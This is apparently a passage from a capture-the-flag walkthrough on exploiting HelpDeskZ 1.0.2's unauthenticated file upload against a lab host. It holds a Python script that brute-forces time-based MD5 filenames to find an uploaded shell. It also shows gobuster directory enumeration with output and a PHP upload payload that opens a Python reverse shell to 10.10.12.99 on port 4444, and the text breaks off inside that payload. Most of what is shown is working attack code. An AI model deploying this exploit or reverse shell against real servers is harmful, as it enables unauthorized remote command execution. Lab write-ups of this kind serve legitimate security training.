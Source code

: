         print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

        if len(sys.argv) < 3:
            print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
            sys.exit(1)

        helpdeskzBaseUrl = sys.argv[1]
        fileName = sys.argv[2]

        currentTime = int(time.time())

        for x in range(0, 300):
            plaintext = fileName + str(currentTime - x)
            md5hash = hashlib.md5(plaintext).hexdigest()

            url = helpdeskzBaseUrl+md5hash+'.php'
            response = requests.head(url)
            if response.status_code == 200:
                print "found!"
                print url
                sys.exit(0)

        print "Sorry, I did not find anything"
        ```

      __NOTE(S)__:
      - It searches for your uploaded file.
      - A UNIX timestamp up to five minutes ago is checked.
>
   2. Find the ticketing service's upload directory:
      ```console
      $ gobuster -u http://10.10.10.121/support -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

        /images (Status: 301)
        /index.php (Status: 200)
        /uploads (Status: 301)
        /css (Status: 301)
        /includes (Status: 301)
        /js (Status: 301)

      $ gobuster -u http://10.10.10.121/support/uploads -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

        /index.php (Status: 302)
        /articles (Status: 301)
        /tickets (Status: 301)

      ```
   3. Exploit HelpDeskZ's ticketing service:
      1. Fill-up all the required fields
      2. Attach payload (__*shell.php*__):
         ```php
         <?php

           echo system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.99\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");
